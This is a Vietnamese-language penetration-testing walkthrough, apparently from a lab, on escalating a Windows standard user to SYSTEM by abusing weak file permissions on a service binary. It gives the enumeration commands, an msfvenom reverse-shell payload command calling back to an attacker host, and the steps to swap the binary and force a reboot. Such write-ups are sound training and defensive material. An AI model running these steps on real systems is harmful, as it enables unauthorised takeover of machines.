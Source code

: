# Weak Service File Permissions
Tôi đã có được chỗ đứng trên máy mục tiêu với tư cách là người dùng tiêu chuẩn bob

![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/df3a329e-22e3-4ce9-bbd5-36a2ec6512dc)

## Hunting for Non-Standard Services

Có nhiều cách để chúng ta có thể tìm kiếm các dịch vụ thực thi từ các thư mục có quyền yếu; tuy nhiên, để tìm kiếm các quyền truy cập tệp yếu, trước tiên chúng tôi phải tìm kiếm mọi dịch vụ đang thực thi từ các vị trí không chuẩn trên hệ thống. Lý do cho điều này là vì các dịch vụ thực thi từ các vị trí không chuẩn sẽ tạo cơ hội tốt nhất cho chúng tôi tìm ra các quyền dịch vụ yếu.

Chúng ta có thể sử dụng lệnh **wmic** sau để tìm bất kỳ dịch vụ nào đang thực thi từ các vị trí không chuẩn:

```
wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\"
```

![image-229](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/1221c128-a378-4f81-87dc-bec721e93a16)

Trong lệnh trên, tôi đã sử dụng wmic để truy vấn các dịch vụ và chỉ lấy các trường mà chúng tôi quan tâm. Chúng tôi cũng sử dụng option **/v** để bỏ qua mọi kết quả từ các thư mục bắt đầu bằng **C:\Windows** vì ta có thể sẽ không có quyền ghi vào các thư mục đó.

Ngoài ra, lệnh tương đương từ lời nhắc PowerShell sẽ là:

```
Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where { $_.PathName -notlike "C:\Windows*" } | select Name,DisplayName,StartMode,PathName
```

![image-230](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/a5b258c5-6adb-44c4-b508-82d0dbece14b)

Điều này cho chúng ta biết rằng có một dịch vụ có tên **Juggernaut** bắt đầu bằng cách thực thi tệp nhị phân **C:\Program Files\Juggernaut\Juggernaut.exe** và dịch vụ này là dịch vụ tự động khởi động.

Trước đó chúng tôi đã liệt kê rằng chúng tôi đã bật **SeShutdownPrivilege**, điều đó có nghĩa là chúng tôi sẽ có thể “khởi động lại” chương trình bằng cách khởi động lại máy.

## Săn lùng quyền đối với tệp dịch vụ yếu

### Liệt kê các quyền của tệp dịch vụ yếu – icacls

Sau khi tìm thấy một dịch vụ thú vị (không phải mặc định) thực thi từ một vị trí không chuẩn, chúng tôi cần tìm hiểu xem liệu chúng tôi có thể khai thác dịch vụ này hay không bằng cách kiểm tra quyền của thư mục và tệp.

Để thực hiện việc này, chúng ta có thể sử dụng lệnh **icacls** , đây là lệnh tích hợp được sử dụng để kiểm tra quyền của ACL thư mục và tệp.

Các quyền mà chúng tôi đang tìm kiếm trên thư mục là một trong ba quyền sau:

- (F) Kiểm soát hoàn toàn
- (M) Sửa đổi
- (W) Viết

Các quyền của người dùng / nhóm mà chúng tôi đang tìm kiếm như sau:

- Người dùng cụ thể mà chúng tôi hiện đang đăng nhập với tên (%USERNAME%)
- Authenticated Users
- Everyone
- BUILTIN\Users
- NT AUTHORITY\INTERACTIVE


Để xem các quyền trên thư mục C:\Program Files\Juggernaut, chúng ta có thể sử dụng lệnh sau:

```
icacls "C:\Program Files\Juggernaut"
```
![image-231](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/15987d0d-bf71-49d7-a168-68200129ebc8)

Điều này cho thấy BUILTIN\Users có (F) Toàn quyền kiểm soát thư mục này. Sau đó, điều này có thể có nghĩa là chúng tôi cũng sẽ có Toàn quyền kiểm soát nhị phân dịch vụ vì nó đã kế thừa các quyền của thư mục. Chúng tôi có thể xác nhận điều này bằng cách kiểm tra nhị phân bằng icacls, như vậy:

```
icacls "C:\Program Files\Juggernaut\Juggernaut.exe"
```
![image-232](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/eac92726-2614-4bb9-bf78-8628fb73a827)

Điều này có nghĩa là tôi có thể toàn quyền kiểm soát dịch vụ này bằng cách thay thế tệp nhị phân ban đầu bằng thứ gì đó độc hại.

### Liệt kê các quyền của tệp dịch vụ yếu – Accesschk

Trước khi tải bất kỳ công cụ nào lên nạn nhân, chúng ta cần liệt kê kiến trúc để có thể chuyển giao các công cụ phù hợp cho công việc. Chúng ta có thể thực hiện việc này bằng lệnh systeminfo , như sau:

```
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"
```
![image-233](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/539de133-fbc6-44ab-8f35-c1c7853201a6)

Ở đây chúng ta có thể thấy máy này đang chạy Windows 10 Pro – Build 18362 – Version 1903 và có kiến trúc x64.
Vì chúng tôi đã liệt kê rằng đây là vòm x64 nên chúng tôi có thể tiến hành chuyển bản sao của **accesschk64.exe** cho nạn nhân
Bắt đầu với quyền trên thư mục, chúng ta có thể sử dụng lệnh sau:

```
.\accesschk64.exe -wvud "C:\Program Files\Juggernaut" -accepteula
```
![image-235](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/f4a34beb-93b2-4b72-8720-f6fa872d5666)

Ở đây chúng ta có thể thấy rất giống với đầu ra icacls mà nhóm **BUILTIN\Users** có **FILE_FULL_ACCESS** , có nghĩa là **“Toàn quyền kiểm soát”**.

Chúng ta cũng có thể kiểm tra tệp thực thi bằng cách bỏ cờ '-d' rồi thêm tệp thực thi vào đường dẫn tệp, như sau:

```
.\accesschk64.exe -wvu "C:\Program Files\Juggernaut\Juggernaut.exe" -accepteula
```
![image-236](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/78010700-390e-44c4-a4b5-123718253d82)

Bây giờ chúng ta đã biết cách liệt kê các quyền của thư mục yếu bằng cách sử dụng các kỹ thuật thủ công và sử dụng Accesschk, hãy xem cách chúng ta có thể tìm kiếm các dịch vụ không chuẩn và các quyền đối với tệp dịch vụ yếu cùng một lúc bằng các công cụ.

### winPEAS

Vì chúng tôi đã chuyển winPEAS cho nạn nhân nên chúng tôi có thể tiến hành quét toàn bộ (không có công tắc) và sau đó xem xét đầu ra để tìm xem có dịch vụ nào dễ bị tấn công do quyền truy cập tệp dịch vụ yếu hay không.

winPEAS có rất nhiều đầu ra, vì vậy chìa khóa để không bị lạc là biết thông tin nhất định sẽ nằm ở đâu. Đối với các quyền dịch vụ yếu, chúng tôi muốn kiểm tra danh mục Thông tin dịch vụ . Điều này sẽ cung cấp cho chúng tôi thông tin về tên dịch vụ, đường dẫn đến tệp nhị phân dịch vụ và loại chế độ bắt đầu.

![image-241](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/2df78a90-3c56-453a-b65c-58bfef3b72bc)

Điều này cho chúng tôi biết mọi thứ chúng tôi cần biết để khai thác dịch vụ này. Nó cho thấy rằng chúng tôi có quyền ghi trên tệp thực thi và chương trình này là chương trình tự động khởi động.

Do đây là một lỗ hổng dịch vụ yếu nên winPEAS cũng sẽ thực sự gợi ý về lỗ hổng này trong phần Thông tin ứng dụng .

![image-242](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/9a16a16f-9e7f-4c9f-9627-8a1ee42e2122)

## Khai thác quyền của tệp dịch vụ yếu để lấy SYSTEM Shell

Bây giờ chúng ta đã thấy nhiều cách để tìm kiếm các dịch vụ không chuẩn và liệt kê các quyền đối với tệp dịch vụ, tất cả những gì còn lại cần làm là khai thác dịch vụ để lấy shell HỆ THỐNG.

Để khai thác điều này, chúng ta sẽ cần tạo một khai thác và đặt tên giống với tệp nhị phân dịch vụ ban đầu. Trong trường hợp này, tên tải trọng của chúng tôi sẽ là Juggernaut.exe.

Sau khi liệt kê rằng hệ thống này có vòm x64 và dịch vụ mà chúng tôi tìm thấy nằm trong thư mục “Tệp chương trình”, chúng tôi có thể dễ dàng tăng tải trọng 64 bit bằng cách sử dụng **msfvenom** và lệnh sau:

```
msfvenom -p windows/x64/shell_reverse_tcp LPORT=443 LHOST=172.16.1.30 -a x64 --platform Windows -f exe -o Juggernaut.exe
```
![image-244](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/bcd1409d-cc38-4dfc-907c-c39f09654672)

Nếu chúng tôi thấy dịch vụ này chạy từ thư mục Tệp chương trình (x86), chúng tôi có thể muốn xem xét việc tạo tệp thực thi 32 bit vì dịch vụ 64 bit có thể không hoạt động cho dịch vụ.

Với “dịch vụ” mới sáng bóng có thể thực thi được của chúng tôi đã sẵn sàng hoạt động, chúng tôi cần chuyển nó cho nạn nhân.

![image-245](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/cb1c0c33-f891-450b-be3c-44309ff0a95d)

Trọng tải của chúng tôi hiện đang ở trên nạn nhân; tuy nhiên, trước khi di chuyển tệp vào thư mục C:\Program Files\Juggernaut, chúng ta cần sao lưu tệp nhị phân gốc,

```
move "C:\Program Files\Juggernaut\Juggernaut.exe" "C:\Program Files\Juggernaut\Juggernaut.exe.BAK"
```

![image-246](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/8b180e6a-df84-4a92-a2a8-f2b220f2892a)

Tuyệt vời! Tệp nhị phân ban đầu đã được sao lưu, bây giờ tất cả những gì chúng ta cần làm là chuyển tải trọng của mình sang thư mục Juggernaut và khởi động lại hệ thống.

Nhưng trước tiên, chúng ta cần khởi động trình nghe netcat trên máy tấn công của mình trên cổng 443 để bắt shell SYSTEM.

![image-247](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/2e979805-1c33-4040-963e-6f0895dda876)

Được rồi, hãy kết thúc chuyện này! Sử dụng hai lệnh sau, chúng tôi sẽ đặt tải trọng của mình vào thư mục Juggernaut và sau đó khởi động lại máy.

```
move C:\temp\Juggernaut.exe "C:\Program Files\Juggernaut"

shutdown /r /t 0 /f
```
![image-248](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/1965089c-36ee-4dba-bce4-d1f789ceae9d)

Chúng tôi thấy rằng chúng tôi đã được khởi động từ hệ vỏ hiện tại, điều đó có nghĩa là hệ thống đã khởi động lại; và sau khoảng 20 giây, chúng tôi nhận được shell HỆ THỐNG trên trình nghe của mình!

![image-249](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/3cb1b2ba-40d3-4bd2-9f30-1f068ddb442f)

